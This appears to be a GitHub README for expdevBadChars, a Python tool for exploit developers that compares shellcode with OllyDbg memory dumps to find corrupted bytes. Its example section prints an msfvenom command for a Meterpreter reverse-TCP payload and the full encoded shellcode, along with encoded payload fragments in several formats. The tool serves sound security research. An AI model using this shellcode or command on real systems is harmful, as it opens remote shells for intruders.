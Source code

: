 ## expdevBadChars

This is a Bad Characters highlighter intended to be used for exploit development purposes.
It supports multiple input formats and is able to effectively convert from regex-matching format to the byte array.

This makes this tool useful while we have for instance shellcode encoded as a Python string concatenation sequence and we want to quickly compare it with the OllyDbg memory that we just dumped (either in textual, printable form or in raw hex binary bytes).

Additionally, this script has been equipped with _Longest Common Subsequence_ based algorithm designed by _Peter Van Eeckhoutte_ from Corelan.be team in his **Mona.py** tool (specifically `filecompare` function). This makes the tool more robust and reliable even in conditions of not fully matching buffers, shifted a bit or otherwise severly corrupted.


# Usage

Here comes the tool usage, pretty simple:

```
	:: BadChars.py (v:0.2) - Exploit Development Bad Characters hunting tool.
		Equipped with Corelan.be Mona's buffers comparison LCS-based algorithm

Usage: badchars.py [options] good_buffer bad_buffer

Buffers explanation:
	- good_buffer	- file containing buffer considered to be a model one, having expected bytes in it.
	- bad_buffer	- file that has tainted/modified/varying bytes comparing to good_buffer.

Available formats:
	'raw', 'hexdump', 'js-unicode', 'dword', 'xxd', 'byte-array', 'hexstring', 'hexdump-C', 'classic-hexdump', 'escaped-hexes', 'powershell', 'gdb', 'ollydbg', 'ruby', 'c', 'carray', 'python'

Options:
  -h, --help         show this help message and exit
  -c, --colored      Colors the comparison output.
  --format1=FORMAT   Enforce specific format on first buffer.
  --format2=FORMAT   Enforce specific format on second buffer.
  -w, --wide         Wide mode, display hex dumps next to each other.
  -e, --match-empty  Print matching bytes as empty line from bad_buffer.
  -n, --no-lcs       Don't use LCS (Longest Common Subsequence) algorithm in
                     hex dump printing. Go with simple comparison.
  -d, --debug        Debug mode - more verbose.
  -q, --quiet        Quiet mode, no infos. Return 1 if not equal, 0 otherwise.

```

Among available formats we can find those that can me made by tools such as `hexdump`, `hd`, `xxd`, `msfvenom` various output formats (as coded in programming languages, for instance Ruby, Python, Powershell, Java) but also supporting **GDB** `x/xw` / _DWORD_ dump display!

Ever struggled with getting bytes converted from forms as...

```
Payload size: 360 bytes
Final size of bash file: 1582 bytes
$'\x09\xa7\x2e\x57\xa3\x48\x87\x0f\x5b\xf0\x82\xc4\xfa\xfd'\
$'\x18\xa1\x3c\x75\xa9\x55\xf2\x7e\xd8\x45\xe2\x1e\x22\x96'\
$'\xf2\x8a\x22\xfc\xf6\x1c\x74\x68\xf4\x79\xb2\x37\x07\xac'\
$'\xc0\x30\xf7\x31\xf1\x4b\xc1\xa7\xbd\x23\x2d\x28\x3e\xb4'\
```

```
Final size of dw file: 1102 bytes
0x179eb4b1, 0x4553a9f6, 0x7ac6a6af, 0xf1daf3c4, 0xe55b1296, 0xb84a146e, 0x3a4c4fe5, 0x24c5e42a, 
0xdf9cc12f, 0x361ebd9b, 0x778c3ed2, 0xb0ccccdb, 0xc8bb2edb, 0x0ebcd218, 0x95480863, 0x71eadbc3, 
```

```
(gdb) x/12x $rip
0x40050f <main+15>: 0x00fc45c7  0xeb000000  0x05c4bf0e  0xbee80040
0x40051f <main+31>: 0x83fffffe  0x8301fc45  0x7e09fc7d  0x0000b8ec
0x40052f <main+47>: 0xc3c90000  0x1f0f2e66  0x00000084  0x1f0f0000
```

```
x86/shikata_ga_nai chosen with final size 360
Payload size: 360 bytes
Final size of js_le file: 1080 bytes

%uc9bb%u7a7e%udac3%ud9cf%u2474%u5ff4%uc929%u54b1%uef83%u31fc%u0f5f%u5f03%u9cc6%u3f8f%ue230%uc070%u83c0%u25f9%u83f1%u2e9e%u33a1%u63d4%ubf4d%u97b8%ucdc6%u9714%u7b6f%u9643%ud070%ub9b7%u2bf2%u19e4%ue3cb%u58f9%u190c%u09f3%u55c5%ubda6%u2362%u357b
```

```
Final size of powershell file: 2109 bytes
[Byte[]] $buf = 0xb8,0xda,0x52,0x8e,0xde,0xd9,0xe9,0xd9,0x74,0x24
$buf += 0xf4,0x5d,0x33,0xc9,0xb1,0x54,0x83,0xc5,0x4,0x31
$buf += 0x45,0xf,0x3,0x45,0xd5,0xb0,0x7b,0x22,0x1,0xb6
```

...when all you wanted was to **just get plain raw bytes**?

This tool has been crafted just for this annoying situation.


# Example use case

Consider two input files:

**my-shellcode.txt** (aka _good buffer_)

```
    # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.XXX.YYY LPORT=4444 \
    #           -b '\x00' --encoder-space 740 -f py -v stage3
    stage3 += "\xda\xd1\xd9\x74\x24\xf4\x5e\xba\xb3\x4b\x18\xc3"
    stage3 += "\x29\xc9\xb1\x54\x83\xc6\x04\x31\x56\x14\x03\x56"
    stage3 += "\xa7\xa9\xed\x3f\x2f\xaf\x0e\xc0\xaf\xd0\x87\x25"
    stage3 += "\x9e\xd0\xfc\x2e\xb0\xe0\x77\x62\x3c\x8a\xda\x97"
    stage3 += "\xb7\xfe\xf2\x98\x70\xb4\x24\x96\x81\xe5\x15\xb9"
    stage3 += "\x01\xf4\x49\x19\x38\x37\x9c\x58\x7d\x2a\x6d\x08"
    stage3 += "\xd6\x20\xc0\xbd\x53\x7c\xd9\x36\x2f\x90\x59\xaa"
    stage3 += "\xe7\x93\x48\x7d\x7c\xca\x4a\x7f\x51\x66\xc3\x67"
    stage3 += "\xb6\x43\x9d\x1c\x0c\x3f\x1c\xf5\x5d\xc0\xb3\x38"
    stage3 += "\x52\x33\xcd\x7d\x54\xac\xb8\x77\xa7\x51\xbb\x43"
    stage3 += "\xda\x8d\x4e\x50\x7c\x45\xe8\xbc\x7d\x8a\x6f\x36"
    stage3 += "\x71\x67\xfb\x10\x95\x76\x28\x2b\xa1\xf3\xcf\xfc"
    stage3 += "\x20\x47\xf4\xd8\x69\x13\x95\x79\xd7\xf2\xaa\x9a"
    stage3 += "\xb8\xab\x0e\xd0\x54\xbf\x22\xbb\x30\x0c\x0f\x44"
    stage3 += "\xc0\x1a\x18\x37\xf2\x85\xb2\xdf\xbe\x4e\x1d\x27"
    stage3 += "\xc1\x64\xd9\xb7\x3c\x87\x1a\x91\xfa\xd3\x4a\x89"
    stage3 += "\x2b\x5c\x01\x49\xd4\x89\xbc\x4c\x42\xf2\xe9\x2b"
    stage3 += "\xa5\x9a\xeb\xb3\xd8\x06\x65\x55\x8a\xe6\x25\xca"
    stage3 += "\x6a\x57\x86\xba\x02\xbd\x09\xe4\x32\xbe\xc3\x8d"
    stage3 += "\xd8\x51\xba\xe6\x74\xcb\xe7\x7d\xe5\x14\x32\xf8"
    stage3 += "\x25\x9e\xb7\xfc\xeb\x57\xbd\xee\x1b\x06\x3d\xef"
    stage3 += "\xdb\xa3\x3d\x85\xdf\x65\x69\x31\xdd\x50\x5d\x9e"
    stage3 += "\x1e\xb7\xdd\xd9\xe0\x46\xd4\x92\xd6\xdc\x58\xcd"
    stage3 += "\x16\x31\x59\x0d\x40\x5b\x59\x65\x34\x3f\x0a\x90"
    stage3 += "\x3b\xea\x3e\x09\xa9\x15\x17\xfd\x7a\x7e\x95\xd8"
    stage3 += "\x4c\x21\x66\x0f\xcf\x26\x98\xcd\xed\x8e\xf1\x2d"
    stage3 += "\xb1\x2e\x02\x44\x31\x7f\x6a\x93\x1e\x70\x5a\x5c"
    stage3 += "\xb5\xd9\xf2\xd7\x5b\xab\x63\xe7\x76\x6d\x3a\xe8"
    stage3 += "\x74\xb6\x2b\x67\x7b\x49\x54\x89\x40\x9f\x6d\xff"
    stage3 += "\x81\x23\xca\xf0\xb8\x06\x7b\x9b\xc2\x15\x7b\x8e"
```

and **memdump-from-olly.txt** (aka _bad buffer_ )

```
This is memory dump taken straight from OllyDbg while analysing what the heck is going on with my shellcode:

00D6FCD2  DA D1 D9 74 24 F4 5E BA B3 4B 18 C3 29 C9 B1 54  ÚÑÙt$ô^º³KÃ)É±T
00D6FCE2  83 C6 04 31 56 14 03 56 A7 A9 ED 3F 5C AF 0E C0  ƒÆ1VV§©í?\¯À
00D6FCF2  AF D0 87 25 9E D0 FC 2E B0 E0 77 62 3C 8A DA 97  ¯Ð‡%žÐü.°àwb<ŠÚ—
00D6FD02  B7 FE F2 98 70 B4 24 96 81 E5 15 B9 01 F4 49 19  ·þò˜p´$–å¹ôI
00D6FD12  38 37 9C 58 7D 2A 6D 08 D6 20 C0 BD 53 7C D9 36  87œX}*Ö À½S|Ù6
00D6FD22  5C 90 59 AA E7 93 48 7D 7C CA 4A 7F 51 66 C3 67  \Yªç“H}|ÊQfÃg
00D6FD32  B6 43 9D 1C 0C 3F 1C F5 5D C0 B3 38 52 33 CD 7D  ¶C.?õ]À³8R3Í}
00D6FD42  54 AC B8 77 A7 51 BB 43 DA 8D 4E 50 7C 45 E8 BC  T¬¸w§Q»CÚNP|Eè¼
00D6FD52  7D 8A 6F 36 71 67 FB 10 95 76 28 2B A1 F3 CF FC  }Šo6qgû•v(+¡óÏü
00D6FD62  20 47 F4 D8 69 13 95 79 D7 F2 AA 9A B8 AB 0E D0   GôØi•y×òªš¸«Ð
00D6FD72  54 BF 22 BB 30 0C 0F 44 C0 1A 18 37 F2 85 B2 DF  T¿"»0.DÀ7ò…²ß
00D6FD82  BE 4E 1D 27 C1 64 D9 B7 3C 87 1A 91 FA D3 4A 89  ¾N'ÁdÙ·<‡‘úÓJ‰
00D6FD92  2B 5C 01 49 D4 89 BC 4C 42 F2 E9 2B A5 9A EB B3  +\IÔ‰¼LBòé+¥šë³
00D6FDA2  D8 06 65 55 8A E6 25 CA 6A 57 86 BA 02 BD 09 E4  ØeUŠæ%ÊjW†º½.ä
00D6FDB2  32 BE C3 8D D8 51 BA E6 74 CB E7 7D E5 14 32 F8  2¾ÃØQºætËç}å2ø
00D6FDC2  25 9E B7 FC EB 57 BD EE 1B 06 3D EF DB A3 3D 85  %ž·üëW½î=ïÛ£=…
00D6FDD2  DF 65 69 31 DD 50 5D 9E 1E B7 DD D9 E0 46 D4 92  ßei1ÝP]ž·ÝÙàFÔ’
00D6FDE2  D6 DC 58 CD 16 31 59 0D 40 5B 59 65 34 3F 0A 90  ÖÜXÍ1Y.@[Ye4?.
00D6FDF2  3B EA 3E 09 A9 15 17 FD 7A 7E 95 D8 4C 21 66 0F  ;ê>.©ýz~•ØL!f
00D6FE02  CF 26 98 CD ED 8E F1 2D B1 2E 02 44 31 7F 6A 93  Ï&˜ÍíŽñ-±.Dj“
00D6FE12  1E 70 5A 5C B5 D9 F2 D7 5B AB 63 E7 76 6D 3A E8  pZ\µÙò×[«cçvm:è
00D6FE22  74 B6 2B 67 7B 49 54 89 40 9F 6D FF 81 23 CA F0  t¶+g{IT‰@Ÿmÿ#Êð
00D6FE32  B8 06 7B 9B C2 15 7B 8E 90 90 90                 ¸{›Â{Ž
```

Now we are going to highlight any **bad characters** in default options set

![Example1](1.jpg)

Looks like we have a corrupted byte - **0x2f** has been replaced with **0x5c** (`/` => `\`).

What if our **bad_buffer** contained some random bytes inserted inside?

Let's take for instance following `memdump`:

```
00D6FCD2  DA D1 D9 74 24 F4 5E BA B3 4B 18 C3 29 C9 B1 54  ÚÑÙt$ô^º³KÃ)É±T
00D6FCE2  83 C6 04 31 56 14 03 00 56 A7 A9 ED 3F 5C AF 0E C0  ƒÆ1VV§©í?\¯À
00D6FCF2  AF D0 87 25 9E D0 FC 2E B0 E0 77 62 3C 8A DA 97  ¯Ð‡%žÐü.°àwb<ŠÚ—
00D6FD02  B7 FE F2 98 70 B4 24 96 81 E5 15 B9 01 F4 49 19  ·þò˜p´$–å¹ôI
00D6FD12  38 37 9C 58 7D 2A 6D 08 D6 20 C0 BD 53 7C D9 36  87œX}*Ö À½S|Ù6
00D6FD22  5C 90 59 AA E7 93 48 7D 7C CA 4A 7F 51 66 C3 67  \Yªç“H}|ÊQfÃg
00D6FD32  B6 43 9D 1C 0C 3F 1C F5 5D C0 B3 38 52 33 CD 7D  ¶C.?õ]À³8R3Í}
00D6FD42  54 AC B8 77 A7 51 AA BB CC DD EE BB 43 DA 8D 4E 50 7C 45 E8 BC  T¬¸w§Q»CÚNP|Eè¼
00D6FD52  7D 8A 6F 36 71 67 FB 10 95 76 28 2B A1 F3 CF FC  }Šo6qgû•v(+¡óÏü
00D6FD62  20 47 F4 D8 69 13 95 79 D7 F2 AA 9A B8 AB 0E D0   GôØi•y×òªš¸«Ð
00D6FD72  54 BF 22 BB 30 0C 0F 44 C0 1A 18 37 F2 85 B2 DF  T¿"»0.DÀ7ò…²ß
00D6FD82  BE 4E 1D 27 C1 64 D9 B7 3C 87 1A 91 FA D3 4A 89  ¾N'ÁdÙ·<‡‘úÓJ‰
00D6FD92  2B 5C 01 49 D4 89 BC 4C 42 F2 E9 2B A5 9A EB B3  +\IÔ‰¼LBòé+¥šë³
00D6FDA2  D8 06 65 55 8A E6 25 CA 6A 57 86 BA 02 BD 09 E4  ØeUŠæ%ÊjW†º½.ä
00D6FDB2  32 BE C3 8D D8 51 BA E6 74 CB E7 7D E5 14 32 F8  2¾ÃØQºætËç}å2ø
00D6FDC2  25 9E B7 FC EB 57 BD EE EF DB A3 3D 85  %ž·üëW½î=ïÛ£=…
00D6FDD2  DF 65 69 31 DD 50 5D 9E 1E B7 DD D9 E0 46 D4 92  ßei1ÝP]ž·ÝÙàFÔ’
00D6FDE2  D6 DC 58 CD 16 31 59 0D 40 5B 59 65 34 3F 0A 90  ÖÜXÍ1Y.@[Ye4?.
00D6FDF2  3B EA 3E 09 A9 15 17 FD 7A 7E 95 D8 4C 21 66 0F  ;ê>.©ýz~•ØL!f
00D6FE02  CF 26 98 CD ED 8E F1 2D B1 2E 02 44 31 7F 6A 93  Ï&˜ÍíŽñ-±.Dj“
00D6FE12  1E 70 5A 5C B5 D9 F2 D7 5B AB 63 E7 76 6D 3A E8  pZ\µÙò×[«cçvm:è
00D6FE22  74 B6 2B 67 7B 49 54 89 40 9F 6D FF 81 23 CA F0  t¶+g{IT‰@Ÿmÿ#Êð
00D6FE32  B8 06 7B 9B C2 15 7B 8E 90 90 90                 ¸{›Â{Ž
```

It contains some bytes added, some removed. This is what the binary diffing would look like using LCS-modified algorithm taken from Mona.py:

![Example2](2.jpg)



# TODO

- add some more input formats
